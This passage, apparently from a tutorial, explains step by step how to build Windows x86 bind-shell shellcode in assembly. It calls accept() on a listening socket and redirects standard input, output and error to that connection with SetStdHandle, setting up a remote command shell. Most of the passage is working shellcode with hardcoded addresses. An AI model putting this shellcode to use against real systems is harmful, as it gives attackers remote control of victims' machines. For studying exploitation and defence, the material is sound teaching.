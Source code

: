 ## System call: accept

Documentation: <a href="https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-accept">https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-accept</a>

Syntax:
```nasm
accept(SOCKET s, sockaddr *addr, int *addrlen)
```

As the docs says, "The accept function permits an incoming connection attempt on a socket". We need to store the return value here, which gets stored in EAX. We store a copy in EBX for later use.

```nasm
xor eax, eax         ; Clear eax
push eax             ; Arg3 (addrlen) = 0
push eax             ; Arg2 (*addr) = 0
push ebx             ; Arg1 (s) = WSASocket() handler
mov eax, 0x71AC1040  ; Address to accept()
call eax
mov ebx, eax         ; Store accept() handler
```

Now finally we have the socket up and running. Time to implement the shell part.

## System call: SetStdHandle

Docs: <a href="https://docs.microsoft.com/en-us/windows/console/setstdhandle">https://docs.microsoft.com/en-us/windows/console/setstdhandle</a>

Syntax:
```nasm
SetStdHandle(_In_ DWORD nStdHandle, _In_ HANDLE hHandle)
```

We will call this function three times to set STD_INPUT, STD_OUTPUT and STD_ERROR to the accepted socket connection.

```nasm
mov edx, 0x7c81d363  ; Address to SetStdHandle()

push ebx             ; Arg2 (hHandle) = accept() handler
push 0xfffffff6      ; Arg1 (nStdHandle) = -0A (STD_INPUT)
call edx
          
push ebx             ; Arg2 (hHandle) = accept() handler
push 0xfffffff5      ; Arg1 (nStdHandle) = -0B (STD_OUTPUT)
call edx
          
push ebx             ; Arg2 (hHandle) = accept() handler          
push 0xfffffff4      ; Arg1 (nStdHandle) = -0C (STD_ERROR)
call edx
```

## System call: system
